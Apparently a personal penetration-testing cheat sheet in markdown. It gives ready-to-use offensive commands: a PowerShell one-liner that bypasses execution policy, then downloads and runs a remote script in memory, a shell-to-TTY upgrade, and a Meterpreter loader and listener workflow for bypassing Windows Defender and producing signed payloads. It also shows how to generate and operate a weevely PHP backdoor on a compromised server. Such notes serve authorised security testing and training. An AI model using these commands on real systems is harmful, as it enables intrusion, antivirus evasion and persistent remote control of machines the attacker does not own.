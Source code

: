 # Notes
## PowerShell
### To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
## Utils
### Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
### Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share [path] -smb2support
```
## PrivEsc on Windows
### Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them. 

**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target
```

## WebApplication Hacking
### Create a PHP Backdoor shell
The software named **weevely** will help on this matter. It's a software that crates the php file to upload to the exploited
server.

```bash
# Generate new agent
weevely generate <password> <path>
# Run terminal or command on the target
weevely <URL> <password> [cmd]
# Recover an existing session
weevely session <path> [cmd]
```

